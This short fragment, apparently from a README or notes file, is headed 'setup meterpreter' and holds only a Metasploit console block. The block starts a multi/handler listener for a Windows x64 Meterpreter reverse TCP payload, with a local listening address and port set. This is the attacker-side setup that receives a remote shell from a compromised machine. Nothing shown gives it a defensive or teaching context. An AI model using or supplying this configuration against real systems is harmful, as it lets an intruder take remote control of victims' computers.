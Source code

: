 # setup meterpreter
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.23
set LPORT 5555
```